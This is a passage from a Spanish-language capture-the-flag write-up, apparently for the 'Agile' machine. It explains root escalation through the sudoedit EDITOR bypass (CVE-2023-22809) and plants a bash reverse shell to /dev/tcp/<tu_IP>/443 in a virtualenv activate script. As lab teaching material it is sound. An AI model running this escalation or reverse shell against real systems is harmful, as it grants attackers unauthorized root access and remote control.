 Al buscar en google una posible via de escalacion con sudoedit, encontre esto: 

- [https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudoedit-privilege-escalation/](https://exploit-notes.hdks.org/exploitlinux/privilege-escalation/sudo/sudoedit-privilege-escalation/)

- [https://www.synacktiv.com/sites/default/files/2023-01/sudo-CVE-2023-22809.pdf](https://www.synacktiv.com/sites/default/files/2023-01/sudo-CVE-2023-22809.pdf)

Vemos que nos permite convertirnos en root mediante la variable de entorno ```EDITOR```

Primero exportamos la variable de entorno EDITOR con este valor:

```bash
export EDITOR='vim -- /app/venv/bin/activate'
```

Y es con ese valor por que al mostrar los archivos que pertenecen el grupo dev_admin, tenemos el ```activate```:

```bash
edwards@agile:~$ find / -group dev_admin 2>/dev/null
/home/dev_admin
/app/venv
/app/venv/bin
/app/venv/bin/activate
/app/venv/bin/Activate.ps1
/app/venv/bin/activate.fish
/app/venv/bin/activate.csh
```

Despues editamos el archivo ```config_test.json``` 

```bash
sudo -u dev_admin sudoedit /app/config_test.json
```

Y al principio agregamos una reverse shell:

```bash
bash -i >& /dev/tcp/<tu_IP>/443 0>&1
```

De esta manera

![](/assets/img/agile/12.png)

Despues guardamos y salimos y unos segundos despues nos llegara una conexion como root

![](/assets/img/agile/11.png)
